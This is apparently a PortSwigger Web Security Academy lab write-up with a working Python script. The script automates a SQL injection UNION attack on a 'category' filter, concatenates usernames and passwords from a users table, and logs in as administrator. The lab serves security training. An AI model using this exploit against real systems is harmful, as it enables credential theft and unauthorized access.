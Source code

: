 ```yaml
---
title: SQL injection UNION attack, retrieving multiple values in a single column
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column/">
6. SQL injection UNION attack, retrieving multiple values in a single column</a>

We don't have enough columns in this SQL injection UNION attack to expose the
username and password in separate columns. We use string concatenation to
retrieve the data in a single column. We start by determining how many columns
are in the vulnerable target table, 'Gifts'. After discovery, we determine which
columns accept string input. Finally, we use the string column and concatenate
the username and password columns for the user table into one column in our
UNION attack. After exposing the username and password for the administrator, we
can log in as the administrator.

Solution:

```python
# usage:
# python3 6.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        s = requests.Session()

        i = 1
        r = s.get(f"{self.url}/filter?category=Gifts'+UNION+SELECT+NULL--")
        while r.status_code == 500:
            i += 1
            nulls = ["NULL"] * i
            r = s.get(
                f"{self.url}/filter?category=Gifts'+UNION+SELECT+{','.join(nulls)}--"
            )

        for j in range(i):
            nulls = ["NULL"] * i
            nulls[j] = "a"
            r = s.get(
                f"{self.url}/filter?category=Gifts'+UNION+SELECT+{','.join(nulls)}--"
            )
            if r.status_code != 500:
                break

        nulls = ["NULL"] * i
        nulls[j] = "CONCAT(username,':',password)"
        r = s.get(
            f"{self.url}/filter?category=Gifts'+UNION+SELECT+{','.join(nulls)}+FROM+users--"
        )
        password = re.findall(r"administrator:([\w]+)", r.text)[0]
        r = self.login(self.who, password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    s = Solution(args.url, args.who)
    s.solve()


if __name__ == "__main__":
    main()
```
